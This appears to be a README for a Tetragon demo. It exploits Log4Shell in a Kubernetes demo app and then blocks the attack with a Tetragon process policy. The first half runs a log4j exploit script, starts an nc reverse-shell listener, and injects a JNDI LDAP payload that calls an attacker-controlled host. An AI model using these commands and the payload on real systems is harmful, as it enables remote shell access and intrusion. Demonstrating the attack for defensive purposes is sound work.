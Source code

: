 # Tetragon Demo

Let's get the attacker machine ready (find more details [here](https://github.com/nmeisenzahl/hijack-kubernetes)):

```bash
cd log4j-shell-poc

sudo python3 poc.py --userip demo01-vm.westeurope.cloudapp.azure.com --webport 80 --lport 443 &
sudo nc -lvnp 443

```

Now inject the jndi string into the demo app:

`${jndi:ldap://demo01-vm.westeurope.cloudapp.azure.com:1389/a}`

You should now have an open reverse shell into the pod.

Next, implement a policy to deny such processes:

```bash
kubectl apply -f ./src/block-process-policy.yaml
```

```bash
kubectl logs -n kube-system -l app.kubernetes.io/name=tetragon -c export-stdout -f | tetra getevents -o compact
```

You now shouldn't be able to access the pod anymore.
